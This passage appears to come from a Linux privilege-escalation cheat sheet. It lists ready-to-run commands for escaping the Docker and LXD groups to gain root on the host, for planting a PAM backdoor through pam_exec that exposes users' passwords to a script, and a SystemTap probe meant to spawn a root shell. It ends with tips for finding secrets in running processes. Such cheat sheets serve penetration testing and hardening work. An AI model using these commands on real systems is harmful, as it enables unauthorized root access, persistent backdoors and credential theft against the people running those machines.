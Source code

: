 #### Abusing Docker and LXD

##### a. Docker Breakout
If the user is in `docker` group:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
##### b. LXD Exploit
Add yourself to `lxd` group:
```
lxc init image-name my-container -c security.privileged=true
lxc config device add my-container mydevice disk source=/ path=/mnt/root recursive=true
lxc start my-container
lxc exec my-container bash
```

#### PAM Backdoor
Placing a malicious module in the PAM stack grants backdoor access.
Example (dangerous!):
```
echo 'auth required pam_exec.so quiet expose_authtok /usr/local/bin/backdoor.sh' >> /etc/pam.d/common-auth
```

#### SystemTap Kernel Module Injection
If you can run SystemTap scripts and load kernel modules:
```
stap -ve 'probe vfs.read { exec("/bin/bash"); exit(); }'
```
**Kernel module access = root compromise.**


### Real World Tips for Enumeration
- Use **pSpy** to see what's being executed
- Monitor `/proc/*/cmdline` for scripts and secrets
- Try `strace` and `lsof` on running processes
- Mount `procfs` in chrooted environments
- Always look for **setenv**, **system()**, and **exec()** in scripts.
